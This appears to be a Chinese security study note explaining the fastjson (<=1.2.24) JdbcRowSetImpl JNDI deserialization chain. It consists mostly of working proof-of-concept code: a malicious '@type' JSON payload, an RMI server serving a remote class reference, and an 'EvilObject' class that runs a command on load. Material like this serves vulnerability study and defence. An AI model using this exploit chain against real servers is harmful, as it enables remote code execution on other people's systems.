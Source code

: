 ## fastjson jdbcRowSetImpl链

版本：fastjson<=1.2.24

刚才讲的fastJson TemplatesImpl链需要设置Feature.SupportNonPublicField。条件太过苛刻。



POC：

```java
import com.alibaba.fastjson.JSON;
import com.sun.rowset.JdbcRowSetImpl;
import fastjsonvuln.User;

import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;

public class FJPoC {
    public static void main(String[] args) throws Exception {
        String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://127.0.0.1:1099/refObj\", \"autoCommit\":true}";
        JSON.parse(PoC);
    }
}
```



RMI Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("whatever", "EvilObject", "http://127.0.0.1:8000/");
        System.out.println(refObj);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        registry.bind("refObj", refObjWrapper);
    }
}
```

恶意类Evil:

```java
import java.io.IOException;

public class EvilObject {
    public EvilObject() {
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
